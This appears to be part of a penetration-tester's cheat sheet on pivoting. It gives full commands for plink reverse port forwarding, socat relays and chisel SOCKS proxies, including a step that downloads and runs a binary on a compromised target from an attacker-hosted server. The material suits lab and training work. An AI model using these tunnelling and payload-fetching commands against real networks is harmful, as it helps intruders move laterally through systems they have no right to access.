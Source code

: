   ```shell
  #kill ssh process
  ```

* ```plink.exe``` - used for pivoting in Windows; alternative to PuTTY SSH client:

```shell
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i id_rsa -N
#cmd.exe /c echo y for non-interactive shells
#here we have access to 172.16.0.5
#and we want to forward connection to 172.16.0.10:80 to port 8000 on attacker (172.16.0.20)

#ssh-keygen keys will not work

#on attacker machine
sudo apt install putty-tools

puttygen id_rsa -o key.ppk
#this .ppk can be used in Windows machine
#for reverse port forwarding
```

* ```socat```:

```shell
#on attacker machine
sudo python3 -m http.server 80

#on target
curl 10.50.73.2/socat -o /tmp/socat && chmod +x /tmp/socat

#port forwarding
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

* ```chisel```:

  * Reverse SOCKS proxy:

  ```shell
  #move the chisel client-server files to the attacker & target systems

  #on attacker machine
  ./chisel server -p 4444 --reverse &
  #& backgrounds the process
  #jobs command can be used to see backgrounded jobs

  #on compromised host
  ./chisel client 10.50.73.2:4444 R:socks &
  #connect to listener & opens a proxy
  ```

  * Forward SOCKS proxy:

  ```shell
  #on compromised host
  ./chisel server -p 4444 --socks5

  #on attacker machine
  ./chisel client 172.16.0.10:4444 1337:socks
  #opens socks proxy on port 1337 of attacker machine
  ```
